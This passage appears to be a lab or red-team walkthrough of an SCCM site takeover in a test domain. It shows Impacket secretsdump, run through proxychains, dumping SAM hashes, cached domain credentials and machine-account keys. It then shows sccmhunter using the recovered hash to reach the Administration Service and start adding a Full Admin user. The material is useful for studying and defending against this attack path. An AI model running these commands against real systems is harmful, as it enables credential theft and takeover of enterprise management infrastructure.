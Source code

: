 ### Secretsdump
 - Secretsdump is proxied through the existing authenticated session to recover the *SCCM.INTERNAL.LAB* site server's hashed credential

```
┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
└─#  proxychains secretsdump.py lab/passive\$@sccm.internal.lab                     
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.100.121:445  ...  OK
[*] Target system bootKey: 0x436a3e67c2c89ded60aeb1f1819428c8
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:003d349493bc6acfb242ae5c2ff3d819:::
[*] Dumping cached domain logon information (domain/username:hash)
INTERNAL.LAB/Administrator:$DCC2$10240#Administrator#dfb35a65f92d8af602f08e358a58dc42
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
lab\SCCM$:aes256-cts-hmac-sha1-96:76bf72e59677dfe072fd6609ccdc1343d318f7cc557b25588b36046747f80172
lab\SCCM$:aes128-cts-hmac-sha1-96:b2d7f1a79de08211ae6a518c82a715f4
lab\SCCM$:des-cbc-md5:5de98a07aefb983e

```

### SCCMHunter

- The recovered active site server machine account hash is used to authenticate to the Administration Service API and add an arbitrary user as Full Admin

```
 ┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/sccmhunter]
└─# python3 sccmhunter.py admin -u sccm\$ -p aad3b435b51404eeaad3b435b51404ee:6963d86f6d65497d7b2126d44e6cdb4e -ip 10.10.100.121

                                                                                          (
                                    888                         d8                         \
 dP"Y  e88'888  e88'888 888 888 8e  888 ee  8888 8888 888 8e   d88    ,e e,  888,8,        )
C88b  d888  '8 d888  '8 888 888 88b 888 88b 8888 8888 888 88b d88888 d88 88b 888 "    ##-------->
 Y88D Y888   , Y888   , 888 888 888 888 888 Y888 888P 888 888  888   888   , 888           )
d,dP   "88,e8'  "88,e8' 888 888 888 888 888  "88 88"  888 888  888    "YeeP" 888          /
                                                                                         (
                                                                 v0.0.2                   
                                                                 @garrfoster                    
    
    
    
[06:53:08 PM] INFO     [!] Enter help for extra shell commands                                                                                               
() C:\ >> show_admins 
[06:53:11 PM] INFO     Tasked SCCM to list current SMS Admins.                                                                                               
[06:53:11 PM] INFO     Current Full Admin Users:                                                                                                             
[06:53:11 PM] INFO     lab\Administrator                                                                                                                     
() (C:\) >> get_user specter
[06:53:13 PM] INFO     [*] Collecting users...                                                                                                               
```